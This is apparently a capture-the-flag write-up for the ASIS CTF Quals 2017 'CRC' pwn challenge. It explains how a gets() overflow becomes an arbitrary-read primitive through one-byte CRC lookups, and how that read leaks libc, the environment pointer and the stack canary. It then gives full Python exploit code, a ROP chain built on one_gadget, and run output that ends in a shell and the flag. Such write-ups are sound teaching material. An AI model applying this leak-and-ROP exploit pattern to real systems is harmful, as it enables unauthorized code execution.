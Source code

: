 # ASIS CTF Quals 2017 - pwn - CRC - 123 pts

> Description:
>
>    We have setup a fresh CRC generator service, but it's not hardened, so find the flag.
>    This service running on latest Ubuntu Xenial OS.

>    nc 69.90.132.40 4002
    
> Attachment: [crcme](crcme) [crchelper.c](crchelper.c) [xpl.py](xpl.py) [libc_32.so.6](libc_32.so.6)
>

# Write-up

The CRC service asks us for a size and some data to process. It then generates a checksum for the specified string and prints it back. 

Quick check with checksec reveals:

```
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

Well, at least no PIE, but it's ovious, we'll have to leak some data to get around those restrictions. 

The function *get_userinput_number* contained an obvious buffer overflow, but it's guarded with a canary, so it won't be that easy to exploit.

```
int get_userinput_number() 
{
	gets(s);
	return atoi(s);
}
``` 

OK, we'll need some way to leak memory addresses in order to find LIBC and to read the canary. After that, it should be an easy task to use *get_userinput_number* to execute a rop chain.

Took an educated guess there, that the crc functionality should be abused to leak some data.

Another "buffer overflow" happened to arise when reading the data, that should be CRC'ed.


```
char s;		// [sp+4h] [bp-84h]@1
char *ptrInput; 	// [sp+68h] [bp-20h]@1
[SNIP]
ptrInput = &s;
[SNIP]
gets(&s);
calcCrc(ptrInput, crcSize);
```

So, if everything goes right, ptrInput is pointing to the string, the user entered and gets used as the argument for the CRC function. But since it's stored directly behind the input string (s) itself and *gets* is used, we can overwrite the pointer with some arbitrary address. With this, we're able to create a checksum for the data, that is stored at any address. But still, we will only get the CRC value for the data at this address. Thus, we need a method to reverse it in order to get the original value.

To make this easier, we can pass a size of 1, so the CRC function will only calculate the checksum for one byte. We'll still need a way to reverse this, but since we're now only considering one byte, there will be only 256 possible checksum values. This should be easy to brute force.

Ripped the CRC initialization method and the calculation method directly from the binary and created a short c script with it (see *crchelper.c*), which will generate a lookup table with the checksums for every possible byte.

Now we just have to call the CRC function for every byte in the address, we want to read and extract the returned checksum. The index of the checksum in our lookup table then represents the byte stored at the specified address. 

```python
CRCLOOKUP = [0xd202ef8d,0xa505df1b,0x3c0c8ea1,0x4b0bbe37,0xd56f2b94,0xa2681b02,0x3b614ab8,0x4c667a2e,0xdcd967bf,0xabde5729,0x32d70693,0x45d03605,0xdbb4a3a6,0xacb39330,0x35bac28a,0x42bdf21c,0xcfb5ffe9,0xb8b2cf7f,0x21bb9ec5,0x56bcae53,0xc8d83bf0,0xbfdf0b66,0x26d65adc,0x51d16a4a,0xc16e77db,0xb669474d,0x2f6016f7,0x58672661,0xc603b3c2,0xb1048354,0x280dd2ee,0x5f0ae278,0xe96ccf45,0x9e6bffd3,0x762ae69,0x70659eff,0xee010b5c,0x99063bca,0xf6a70,0x77085ae6,0xe7b74777,0x90b077e1,0x9b9265b,0x7ebe16cd,0xe0da836e,0x97ddb3f8,0xed4e242,0x79d3d2d4,0xf4dbdf21,0x83dcefb7,0x1ad5be0d,0x6dd28e9b,0xf3b61b38,0x84b12bae,0x1db87a14,0x6abf4a82,0xfa005713,0x8d076785,0x140e363f,0x630906a9,0xfd6d930a,0x8a6aa39c,0x1363f226,0x6464c2b0,0xa4deae1d,0xd3d99e8b,0x4ad0cf31,0x3dd7ffa7,0xa3b36a04,0xd4b45a92,0x4dbd0b28,0x3aba3bbe,0xaa05262f,0xdd0216b9,0x440b4703,0x330c7795,0xad68e236,0xda6fd2a0,0x4366831a,0x3461b38c,0xb969be79,0xce6e8eef,0x5767df55,0x2060efc3,0xbe047a60,0xc9034af6,0x500a1b4c,0x270d2bda,0xb7b2364b,0xc0b506dd,0x59bc5767,0x2ebb67f1,0xb0dff252,0xc7d8c2c4,0x5ed1937e,0x29d6a3e8,0x9fb08ed5,0xe8b7be43,0x71beeff9,0x6b9df6f,0x98dd4acc,0xefda7a5a,0x76d32be0,0x1d41b76,0x916b06e7,0xe66c3671,0x7f6567cb,0x862575d,0x9606c2fe,0xe101f268,0x7808a3d2,0xf0f9344,0x82079eb1,0xf500ae27,0x6c09ff9d,0x1b0ecf0b,0x856a5aa8,0xf26d6a3e,0x6b643b84,0x1c630b12,0x8cdc1683,0xfbdb2615,0x62d277af,0x15d54739,0x8bb1d29a,0xfcb6e20c,0x65bfb3b6,0x12b88320,0x3fba6cad,0x48bd5c3b,0xd1b40d81,0xa6b33d17,0x38d7a8b4,0x4fd09822,0xd6d9c998,0xa1def90e,0x3161e49f,0x4666d409,0xdf6f85b3,0xa868b525,0x360c2086,0x410b1010,0xd80241aa,0xaf05713c,0x220d7cc9,0x550a4c5f,0xcc031de5,0xbb042d73,0x2560b8d0,0x52678846,0xcb6ed9fc,0xbc69e96a,0x2cd6f4fb,0x5bd1c46d,0xc2d895d7,0xb5dfa541,0x2bbb30e2,0x5cbc0074,0xc5b551ce,0xb2b26158,0x4d44c65,0x73d37cf3,0xeada2d49,0x9ddd1ddf,0x3b9887c,0x74beb8ea,0xedb7e950,0x9ab0d9c6,0xa0fc457,0x7d08f4c1,0xe401a57b,0x930695ed,0xd62004e,0x7a6530d8,0xe36c6162,0x946b51f4,0x19635c01,0x6e646c97,0xf76d3d2d,0x806a0dbb,0x1e0e9818,0x6909a88e,0xf000f934,0x8707c9a2,0x17b8d433,0x60bfe4a5,0xf9b6b51f,0x8eb18589,0x10d5102a,0x67d220bc,0xfedb7106,0x89dc4190,0x49662d3d,0x3e611dab,0xa7684c11,0xd06f7c87,0x4e0be924,0x390cd9b2,0xa0058808,0xd702b89e,0x47bda50f,0x30ba9599,0xa9b3c423,0xdeb4f4b5,0x40d06116,0x37d75180,0xaede003a,0xd9d930ac,0x54d13d59,0x23d60dcf,0xbadf5c75,0xcdd86ce3,0x53bcf940,0x24bbc9d6,0xbdb2986c,0xcab5a8fa,0x5a0ab56b,0x2d0d85fd,0xb404d447,0xc303e4d1,0x5d677172,0x2a6041e4,0xb369105e,0xc46e20c8,0x72080df5,0x50f3d63,0x9c066cd9,0xeb015c4f,0x7565c9ec,0x262f97a,0x9b6ba8c0,0xec6c9856,0x7cd385c7,0xbd4b551,0x92dde4eb,0xe5dad47d,0x7bbe41de,0xcb97148,0x95b020f2,0xe2b71064,0x6fbf1d91,0x18b82d07,0x81b17cbd,0xf6b64c2b,0x68d2d988,0x1fd5e91e,0x86dcb8a4,0xf1db8832,0x616495a3,0x1663a535,0x8f6af48f,0xf86dc419,0x660951ba,0x110e612c,0x88073096,0xff000000]

def crc(size, payload):
	r.sendline("1")
	r.recvuntil("What is the length of your data:")
	r.sendline(str(size))
	r.recvuntil("process:")
	r.sendline(payload)

	r.recvuntil("CRC is: ")
	data = r.recvline()

	r.recvuntil("Choice:")	

	return data

def readAddress(address):
	result = 0

	for i in range(0, 4):
		payload = "A"*100
		payload += p32(address+i)

		crcByte = int(crc(1, payload), 16)
		orgByte = CRCLOOKUP.index(crcByte)

		result += orgByte << (i*8)
		
	return result
```

Armed with this, we can read some got entry and calculate the libc base address with it. With libc at hand, we'll have for one access to more rop gadgets, than we'll ever need and we can also leak *__environ* with it. Since it will be stored at a fixed offset to the canary, we can then calculate the position of the canary on the stack.

Having the address of the canary, we can just "de-crc" it the same way:

```python
EXITGOT = 0x08049fec

def exploit(r):
	r.recvuntil("Choice:")

	EXIT = readAddress(EXITGOT)	
	LIBC = EXIT - 0x2e7b0

	print ("[+] EXIT       : %s" % hex(EXIT))
	print ("[+] LIBC       : %s" % hex(LIBC))

	__ENV = LIBC + 0x001b1dbc

	ENVPTR = readAddress(__ENV)
	CANARYPTR = ENVPTR - 0xd0

	print ("[+] ENV        : %s" % hex(ENVPTR))
	print ("[+] Canary ptr : %s" % hex(CANARYPTR))

	CANARY = readAddress(CANARYPTR)

	print ("[+] Canary     : %s" % hex(CANARY))
```

```
python xpl.py 
[+] Opening connection to localhost on port 6666: Done
[7087]
[*] Paused (press any to continue)
[+] EXIT       : 0xf7e4c7b0
[+] LIBC       : 0xf7e1e000
[+] ENV        : 0xffffd32c
[+] Canary ptr : 0xffffd25c
[+] Canary     : 0xfe381000
```

The buffer overflow in "get_userinput_function" should now be an easy victim. 

Used one_gadget to find a magic gadget in their libc to make things easier.

```
$ one_gadget libc_32.so.6
0x3a819	execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5f065	execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5f066	execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL
```

With this our final ropchain is:

```python
	ONEGADGET = LIBC + 0x5f065
	RWP = LIBC + 0x1b0000
	POP_ESI_EDI_EBP = 0x08048850
	XOREAX = LIBC + 0x0002c5fc
	
	payload = "C"*40
	payload += p32(CANARY)
	payload += "B"*12
	payload += p32(POP_ESI_EDI_EBP)
	payload += p32(RWP)
	payload += p32(0xdeadbeef)
	payload += p32(0xdeadbeef)
	payload += p32(XOREAX)
	payload += p32(ONEGADGET)

	r.sendline(payload)
	
	r.interactive()

	return
```

```c
$ python xpl.py 1
[+] Opening connection to 69.90.132.40 on port 4002: Done
[+] EXIT       : 0xf75dc7b0
[+] LIBC       : 0xf75ae000
[+] ENV        : 0xffd1cd3c
[+] Canary ptr : 0xffd1cc6c
[+] Canary     : 0xffa0db00
[+] ONEGADGET  : 0xf760d065
[*] Switching to interactive mode
 $ whoami
task2
$ cat /home/task2/flag.txt
**ASIS{db17755326b5df9dab92e18e43c3ee51}
```



